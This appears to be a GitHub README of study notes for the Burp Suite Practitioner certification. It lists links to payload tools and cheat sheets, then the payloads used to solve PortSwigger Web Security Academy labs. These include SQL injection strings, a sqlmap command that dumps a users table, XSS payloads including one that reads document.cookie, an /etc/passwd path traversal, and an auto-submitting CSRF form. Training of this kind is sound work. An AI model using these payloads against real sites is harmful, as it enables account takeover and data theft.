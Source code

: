 # Burp-Suite-Practitioner

## Useful Links:

1)https://portswigger.net/web-security/authentication/auth-lab-usernames ~ username wordlist

2)https://portswigger.net/web-security/authentication/auth-lab-passwords ~ password wordlist

3)https://github.com/frohoff/ysoserial ~ Java deserialization payload generator

4)https://github.com/PortSwigger/http-request-smuggler - HTTP request smuggler

5)https://portswigger.net/web-security/cross-site-scripting/cheat-sheet ~ PortSwigger XSS cheat sheet

6)https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md ~ XSS cheat sheet

7)https://portswigger.net/burp/documentation/desktop/tools/dom-invader/dom-xss ~ DOM XSS
## Labs

1)_SQL injection vulnerability in WHERE clause allowing retrieval of hidden data_
  
  Payload used:
  
  ' OR 1=1 --

2)_Reflected XSS into HTML context with nothing encoded_
  
  Payload used:
  
  <script>alert(1)</script>

3)_Stored XSS into HTML context with nothing encoded_
  
  Payload used:

  <script>alert(1)</script>

4)_DOM XSS in document.write sink using source location.search_
  
  Payload used:
  
  <img src=x onerror=alert(1)>
 
 5)_DOM XSS in innerHTML sink using source location.search_
 
  Payload used:
 
  <img src=x onerror=alert(1)>
  
 6)_DOM XSS in jQuery anchor href attribute sink using location.search source_
  
  Payload used:
 
  javascript:alert(document.cookie)
  
 7)_SQL injection UNION attack, retrieving data from other tables_
 
  Payload used:
  
  sqlmap -u https://0a6200cf04ebbed9c2d465d1009a00f2.web-security-academy.net/filter?category=* --batch -D public -T users --dump
  
 8)_SQL injection vulnerability allowing login bypass_
 
 Payload used:
 
 ' OR 1=1 --
 
 9)SQL injection UNION attack, determining the number of columns returned by the query
 
 Payload used:
 
 %27+UNION+SELECT+NULL,+NULL,+NULL--
 
 10)File path traversal, simple case
 
 Payload used:
 
 /image?filename=../../../etc/passwd
 
 11)CSRF vulnerability with no defenses
 
 Payload used:
 
<html>
  
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  
  <body>
  
    <script>history.pushState('', '', '/')</script>
    
    <form action="https://0af3002703625819c1842eae009e002f.web-security-academy.net/my-account/change-email" method="POST">
      
      <input type="hidden" name="email" value="evil@gmail.com" />
      
      <input type="submit" value="Submit request" />
    
    </form>
    
    <script>
      
      document.forms[0].submit();
    
    </script>
  
  </body>

</html>
